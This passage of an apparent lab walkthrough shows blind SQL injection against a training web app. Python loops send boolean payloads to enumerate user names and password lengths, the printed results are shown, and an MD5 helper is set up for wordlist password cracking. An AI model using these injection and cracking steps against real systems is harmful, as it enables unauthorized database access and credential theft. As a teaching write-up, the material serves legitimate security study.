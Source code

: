     [FOUND] =  admin
    [FOUND] =  brown
    [FOUND] =  smith
    [FOUND] =  picasso
    [FOUND] =  me
    ['admin', 'brown', 'smith', 'picasso', 'me']


#### 5.3 User column info


```python
wordlist_user = "wordlist/username.txt"
sql_start = "' OR '"
sql_end = "' IN (SELECT user FROM users) -- -"

list_of_user = send_request_with_wordlist(wordlist_user, sql_start, sql_end)
print(list_of_user)
```

    [FOUND] =  admin
    [FOUND] =  Pablo
    ['admin', 'Pablo']


#### 5.4 Info in the password column

##### 5.4.1 Let's see if the passwords are hashed or not.
To do this, we are going to check the size of the passwords. If all the passwords have the same size, then they are hashed.


```python
for i in range(0, 100): 
    id_param = "' OR "+str(i)+ " IN (SELECT LENGTH(password) FROM users)  -- -"
    params = {
        'id': id_param,
        'Submit': 'Submit',
    }
    response = requests.get(url,params=params,cookies=cookies,headers=headers)
    if response.status_code == 200:
        print("[PASSWORD.LENGTH.FOUND] = ", i)
```

    [PASSWORD.LENGTH.FOUND] =  32


All the passwords seem to have the same size: 32, so we can deduce that they are hashed.

And 32 makes us think of MD5. So brute force

##### 5.4.2 Let's try to crack passwords with a wordlist 


```python
import hashlib

def hash_md5(chaine):
    chaine_bytes = chaine.encode('utf-8')
    
    h = hashlib.md5()
    h.update(chaine_bytes)
    hash_md5 = h.hexdigest()
    
    return hash_md5
```
